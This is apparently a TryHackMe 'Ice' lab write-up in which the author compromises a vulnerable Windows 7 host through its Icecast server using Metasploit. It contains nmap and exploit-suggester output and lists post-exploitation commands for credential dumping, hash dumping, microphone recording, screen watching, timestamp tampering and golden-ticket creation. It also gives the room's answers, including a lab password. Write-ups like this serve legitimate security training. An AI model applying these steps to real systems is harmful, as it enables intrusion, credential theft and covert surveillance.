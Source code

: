 ```yaml
---
title: Try Hack Me - Ice
layout: post
category: writeup
---
```


# Try Hack Me: ICE
```
export IP=10.10.201.119
```

## Task 2 [recon]

```
nmap -oN nmap.init.out -sC -sV -A -T4 -p- $IP
```

```
Nmap scan report for 10.10.201.119
Host is up (0.11s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-21T04:28:37+00:00; 0s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 2 hops
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 1h15m00s, deviation: 2h30m00s, median: 0s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:59:6e:ff:11:54 (unknown)
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-20T23:28:28-05:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-21T04:28:28
|_  start_date: 2020-05-21T03:26:10

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   114.00 ms 10.11.0.1
2   114.08 ms 10.10.201.119

```


1. What port is MSRDP?
```
3389
```

2. What service is running on port 8000?
```
Icecast
```

3. What is the hostname of the machine?
```
DARK-PC
```

## Task 3 [gain access]

```
searchsploit icecast
```

```
-------------------------------------------------------------------------- -----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/opt/exploit-database/)
-------------------------------------------------------------------------- -----------------------------------------
Icecast 1.1.x/1.3.x - Directory Traversal                                 | exploits/multiple/remote/20972.txt
Icecast 1.1.x/1.3.x - Slash File Name Denial of Service                   | exploits/multiple/dos/20973.txt
Icecast 1.3.7/1.3.8 - 'print_client()' Format String                      | exploits/windows/remote/20582.c
Icecast 1.x - AVLLib Buffer Overflow                                      | exploits/unix/remote/21363.c
Icecast 2.0.1 (Win32) - Remote Code Execution (1)                         | exploits/windows/remote/568.c
Icecast 2.0.1 (Win32) - Remote Code Execution (2)                         | exploits/windows/remote/573.c
Icecast 2.0.1 (Windows x86) - Header Overwrite (Metasploit)               | exploits/windows_x86/remote/16763.rb
Icecast 2.x - XSL Parser Multiple Vulnerabilities                         | exploits/multiple/remote/25238.txt
icecast server 1.3.12 - Directory Traversal Information Disclosure        | exploits/linux/remote/21602.txt
-------------------------------------------------------------------------- -----------------------------------------
Shellcodes: No Results
```

1. What type of vulnerability is present in the running version of Icecast?
```
execute code overflow
```

2. What is the CVE number of this vuln?
```
CVE-2004-1561
```

4. What is the full path for the exploit module in metasploit?
```
exploits/windows/http/icecast_header
```

6. What is the required exploit module setting?
```
rhosts
```

## Task 4 [escalate]

```
meterpreter > getuid
Server username: Dark-PC\Dark
```

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.201.119 - Collecting local exploits for x86/windows...
[*] 10.10.201.119 - 31 exploit checks are being tried...
[+] 10.10.201.119 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.201.119 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

1. Whats the name of the resulting shell?
```
meterpreter
```

2. What user is running the Icecast process?
```
Dark
```

3. What build of Windows is the system?
```
7601
```

4. What is the architecture of the process we are running?
```
x64
```


6. What is the full path for the first returned exploit suggsted by the local_exploit_suggester?
```
exploit/windows/local/bypassuac_eventvwr
```

10. What is the name of the one option that needs to be changed?
```
LHOST
```

14. What permission did we gain that allows us to take ownership of files?
```
SeTakeOwnershipPrivilege
```

## Task 5 [looting]

2. What is the name of the printer service?
```
spoolsv.exe
```

4. What user are we now?
```
NT AUTHORITY\SYSTEM
```

7. Which command allows us to retrieve all credentials (kiwi)?
```
creds_all
```

8. What is Dark's password?
```
Password01!
```

## Task 6 [post-exploitation]

2. What is the command to dump all password hashes on the system?
```
hashdump
```

3. What command allows us to watch the remote users desktop in realtime?
```
screenshare
```

4. Record from a microphone from the system?
```
record_mic
```

5. What command allows us to modify timestamps of files on the system?
```
timestomp
```

6. What mimikatz command creates a "golden ticket" for authentication to kerberos?
```
golden_ticket_create
```

## Task 7 [extra credit]

ouch, my brain